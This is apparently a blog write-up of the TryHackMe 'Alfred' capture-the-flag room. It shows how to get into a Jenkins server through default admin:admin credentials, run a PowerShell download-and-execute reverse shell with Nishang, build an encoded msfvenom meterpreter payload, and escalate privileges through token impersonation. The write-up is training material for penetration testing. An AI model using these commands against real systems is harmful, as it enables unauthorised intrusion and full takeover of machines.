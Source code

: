 ```yaml
---
title: "TryHackMe-Alfred" 
layout: post
date: 2020-04-30 21:12
tag:
- Windows
- Meterpreter
- Privilege Escalation
image: /assets/images/pictures/Alfred/Alfred.png
headerImage: true
category: blog
author: DeShaun Ormond
readtime: 5 minutes
---
```


Another common OSCP exam machine, in this Batman themed room, exploit Jenkins by getting a shell with powershell, then escalate your privileges by exploiting Windows authentication tokens.

You can access this room here: [Alfred](https://tryhackme.com/room/alfred)


__This room requires a TryHackMe subscription to join__

## Table of Contents

- [Task 1: Initial Access](#initial-access)
- [Task 2: Switching Shells](#switching-shells)
- [Task 3: Privilege Escalation](#privilege-escalation)


### Initial Access

**Let's Begin!**


**Question 1: How many ports are open?**
  
Deploy the box and run a nmap scan! Since the box doesnt respond to ping scans include the -Pn tag. 

~~~
nmap -sC -sV <boxip> -Pn 
~~~

10.10.51.179


 ![nmap_scan](https://ormond5.github.io/MyBlog/pictures/Alfred/nmap.png)

Our nmap scan shows 3 ports running on this box. Therefore we have our first answer. 

{: .box-success}
**Flag 1 :** X 

**Quesiton 2: What is the username and password for the log in panel(in the format username:password)**

From the nmap scan we see that we have two http services running. Navigate to the webserver on port 8080. You will see a login page. what are the chances that the manager didnt change the default credentials... let's try admin for both username and password

![admin](https://ormond5.github.io/MyBlog/pictures/Alfred/adminlogin.png)

We are in and we found our next flag! 

 {: .box-success}
**Flag=** admin:admin


**Question 3: Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it** 

The next question tells us to look for a tool that allows us to execute commands. After some clicking and snooping around you will find a place where you can input commands. 

![flag3](/pictures/Alfred/projectbuild.png)

Replace 'whoami' with the command below and click apply and save. 
~~~
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port 1234
~~~

Before we go any further, set up a netcat listening sesison on the port you have chosen above. 
~~~
nc -lnvp <1234>
~~~

 Then if you have not already you will need to download Nishang's Invoke PowerShellTcp script. 

```
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 

```

You also need to start up a web server, python allows for us to do this easily buy just running a simple command:

~~~
python3 -m http.server 
~~~

![httpserver](/pictures/Alfred/python-httpserver.png)


All together your terminals should look like this:

![tmux](/pictures/Alfred/tmux0.png)


Once you have the Powershell Script downloaded and the http server running navigate back to the project menu and select build. 

![build](/pictures/Alfred/Build.png)

Go back to your terminal and you should see on the python http server the victim ip reaching out and getting our Powershell script. Along with a shell opening up on your listening shell! 

![tmux1](/pictures/Alfred/tmux.png)

Once you are in, navigate to bill's Desktop directory and obtain the flag. 

~~~
PS C:\Users\bruce\Desktop> type user txt
~~~

{: .box-success}
**Flag:** XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX


### Switching Shells

The next task instructs us to switch to a meterpreter shell to allow for easier privilege escalation. They give us a command to create a windows meterpreter revese shell to use. 

~~~
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder 
      x86/shikata_ga_nai LHOST=<IP> LPORT=5555 -f exe -o alfred.exe
~~~

Open a new terminal and run the command above. I set the listening port on port 5555 and set the shell name to alfred.exe. Download that and you get our only flag

![msfvenom](/pictures/Alfred/msfvenom.png)

{: .box-success}
**Flag:** XXXXX

Open up another listening session for port 5555
~~~
nc -lnvp 5555
~~~

Looking back at the room, it tells us also to create a payload to upload to the victim's machine. We will enter this in the same place we entered the last place where we entered the commands on the website. 

~~~
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/alfred.exe','alfred.exe')"
~~~

Once you have saved and applied the new changes, navigate back to the projects page and select 'Build'. 

You may have to cancel the previous exploit, which will kick you out. Don't worry! Run the command and then re-run task 1 to get back in. 

![build](/pictures/Alfred/Build.png)


Once you get back in, you should see alfred.exe in your current directory. and run the command: 

```
Start-Process alfred.exe
```
This should spawn a meterpreter shell on your newest listening shell! 


### Privilege Escalation


"Now that we have initial access, let's use token impersonation to gain system access." 


Read the information on Windows tokens then come back when you are ready to move one. 

**Question 1: View all the privileges using whomai /priv**

In your first shell run the command: 

~~~
'whoami /priv' 
~~~
![priv](/pictures/Alfred/privilege.png)

We see two of the most commonly abused privileges are enbabled! In your metasploit shell enter the command: 

~~~
load incognito
list_tokens -g
~~~

"Load incognito" will allow us to exploit this vulnerability and "list_tokens -g" will show us which tokens are available. Once we see which tokens are avaliable we can impersonate the one with the highest privilege "BUILTIN\Adminstrators" 

![incognito](/pictures/Alfred/task3-2.png)

![impersonate](/pictures/Alfred/Task3-flag3.png)

```
Run getuid command to get the next flag
```

{: .box-success}
**FLAG: XX XXXXXXXXXXXXXX** 


The last step instructs us to switch process so that we may permissions of a privileged user. Right now we just have elevated privileges. Run the commands below and search for PID for services.exe. 

~~~
meterpreter> ps
~~~

Once you have found the PID number, migrate to the PID to obtain privileged user permissions 

![final flag](/pictures/Alfred/FinalFlag.png)



Congrats!! You have completed this room!  
<p align="center">
  <img src="https://media.giphy.com/media/14iPmDWiwIkyk0/giphy.gif">
</p>

 
